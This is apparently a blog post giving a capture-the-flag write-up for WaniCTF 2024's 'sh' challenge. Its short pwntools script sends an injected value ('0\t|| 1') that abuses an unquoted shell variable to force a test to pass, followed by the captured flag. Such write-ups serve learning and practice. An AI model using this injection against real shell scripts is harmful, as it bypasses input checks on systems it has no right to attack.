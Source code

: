 ```yaml
---
layout: post
title:  "sh - wanictf 2024"
date:   2024-06-29 00:00:00 -0400
---
```


https://ctftime.org/event/2377

# sh (misc)

shellscript without double quotes

## Solution

```python
from pwn import *

r = remote("chal-lz56g6.wanictf.org", "7580")
r.sendline(f"0\t|| 1")
r.interactive()
```

- 0 to pass the grep check
- \t to trick printf, not fully sure how it works but i saw in some testcase on busybox
- || 1 to make test always true

## Flag
`FLAG{use_she11check_0r_7he_unexpec7ed_h4ppens}`

shafouz 2024/06/23
